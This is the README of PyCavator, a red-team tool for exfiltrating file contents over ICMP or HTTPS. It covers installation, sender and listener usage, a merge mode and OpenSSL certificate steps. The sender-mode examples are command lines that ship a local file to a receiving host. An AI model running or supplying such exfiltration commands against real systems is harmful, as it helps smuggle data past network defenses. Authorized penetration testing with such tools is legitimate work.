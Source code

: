 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP/HTTPS packets in a secure and efficient manner.

- [PyCavator](#pycavator)
  * [Installation](#installation)
  * [Usage](#usage)
    + [ICMP](#icmp)
      - [Examples:](#examples-)
    + [HTTPS](#https)
      - [Examples:](#examples--1)
      - [Generating a Key, CSR, and Certificate with OpenSSL](#generating-a-key--csr--and-certificate-with-openssl)
        * [Steps](#steps)
  * [How to Contribute](#how-to-contribute)
  * [Disclaimer](#disclaimer)
  * [License](#license)

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/kryptohaker/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## Usage

### ICMP 

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash  
python pycavator-icmp.py -f input.txt -d 192.168.1.101
```  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
```bash
python pycavator-icmp.py -l -s 192.168.1.100 -w c
```  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash  
python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
```  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
```bash
python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

### HTTPS 

<b>Required libraries:</b><br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash
python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
```
> If in the target machine installation of required libraries is not possible, use `pycavator-httpsender.py` instead.

  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash
python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
``` 

#### Generating a Key, CSR, and Certificate with OpenSSL

This guide explains how to use OpenSSL to generate a new private key, create a certificate signing request (CSR) with the private key, sign the CSR to create a digital certificate, and display the contents of the certificate.

<b>Prerequisites:</b><br/>
- OpenSSL installed on your system.

##### Steps

Generate a new private key:
```bash
openssl genrsa -out key.pem 2048
```
This command generates a new RSA private key with a length of 2048 bits, and saves it to a file named `key.pem`.

Create a CSR with the private key:
```bash
openssl req -new -key key.pem -out csr.pem
```
This command creates a new certificate signing request (CSR) using the private key stored in the `key.pem` file, and saves the CSR to a file named `csr.pem`.

Sign the CSR to create a digital certificate:
```bash
openssl x509 -req -days 1 -in csr.pem -signkey key.pem -out cert.pem
```
This command uses the private key stored in the `key.pem` file to sign the CSR stored in the `csr.pem` file, and saves the resulting digital certificate to a file named `cert.pem` (is the output file that contains the public key). The `-days 1` option sets the validity period of the certificate to one day.

Display the contents of the certificate:
```bash
openssl x509 -text -noout -in cert.pem
```
This command displays the textual representation of the digital certificate stored in the `cert.pem` file, without the header or footer information.

Create a self-signed root certificate authority:
```bash
cp cert.pem ca.pem
```
This command copies the contents of the `cert.pem` file to a new file named `ca.pem`. This is often done to create a self-signed root certificate authority (CA), which can be used to sign other certificates for internal use.

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




